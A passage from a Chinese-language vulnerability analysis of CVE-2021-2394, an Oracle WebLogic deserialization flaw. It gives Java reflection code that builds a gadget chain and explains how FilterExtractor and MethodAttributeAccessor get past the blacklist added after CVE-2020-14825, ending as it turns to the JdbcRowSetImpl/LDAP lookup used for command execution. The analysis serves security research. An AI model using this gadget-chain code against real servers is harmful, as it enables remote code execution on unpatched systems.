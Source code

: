 第三步，将TopNAggrator.PartialResult对象封装进AttributeHolder的o_value属性

```
AttributeHolder attributeHolder = new AttributeHolder();
Method setInternalValue = attributeHolder.getClass().getDeclaredMethod("setInternalValue", Object.class);
setInternalValue.setAccessible(true);
setInternalValue.invoke(attributeHolder, sortedBag);
```

到此为止整个封装顺序为下图中绿线的调用顺序，一旦封装完毕那么在反序列化执行的时候就会按照橙线的顺序执行。

[![](https://p3.ssl.qhimg.com/t01dfa0f95a01945c0a.png)](https://p3.ssl.qhimg.com/t01dfa0f95a01945c0a.png)

### <a class="reference-link" name="0x2%20%E7%BB%95%E8%BF%87%E9%BB%91%E5%90%8D%E5%8D%95%E7%B1%BB"></a>0x2 绕过黑名单类

**<a class="reference-link" name="1.%20%E7%BB%95%E8%BF%87%E5%88%86%E6%9E%90"></a>1. 绕过分析**

在CVE-2021-2394之前的黑名单对CVE-2020-14825中的LockVersionExtractor和MethodAttributeAccessor以及MvelExtractor进行了限制，使得我们不能在readExternal反序列化的时候获取到这三个类。漏洞作者在研究的时候发现了SerializationHelper.readAttributeAccessor方法中实例化了MethodAttributeAccessor类

[![](https://p5.ssl.qhimg.com/t010e58eaaee71b2fd7.png)](https://p5.ssl.qhimg.com/t010e58eaaee71b2fd7.png)

同时发现FilterExtractor类在反序列化的时候会调用该方法生成MethodAttributeAccessor对象。与此同时FilterExtractor的extract函数会调用MethodAttributeAccessor的getAttributeValueFromObject方法。

[![](https://p5.ssl.qhimg.com/t0147bd73df477925da.png)](https://p5.ssl.qhimg.com/t0147bd73df477925da.png)

更巧的是该方法带有反射调用，可以调用任意对象的任意方法

[![](https://p3.ssl.qhimg.com/t01fc2db96fb9c9e97a.png)](https://p3.ssl.qhimg.com/t01fc2db96fb9c9e97a.png)

于是就有了下面的代码

```
MethodAttributeAccessor accessor = new MethodAttributeAccessor();
accessor.setAttributeName("Timeline Sec");
accessor.setGetMethodName("connect");
accessor.setSetMethodName("setConnection");
FilterExtractor extractor = new FilterExtractor(accessor);
Field m_comparator = sortedBag.getClass().getSuperclass().getDeclaredField("m_comparator");
m_comparator.setAccessible(true);
m_comparator.set(sortedBag, extractor);
```

有同学可能会有疑问不是这里生成了MethodAttributeAccessor对象，在反序列化的时候不会被黑名单吗？答案是不会的，因为FilterExtractor在序列化的时候会将它的关键属性用字符串的方式进行序列化存储，而在反序列化的时候直接new MethodAttributeAccessor()

**<a class="reference-link" name="2.%20%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E5%88%86%E6%9E%90"></a>2. 命令执行分析**

运用CVE-2020-14825的命令执行链，JdbcRowSetImpl类中的lookup方法触发ldap漏洞。
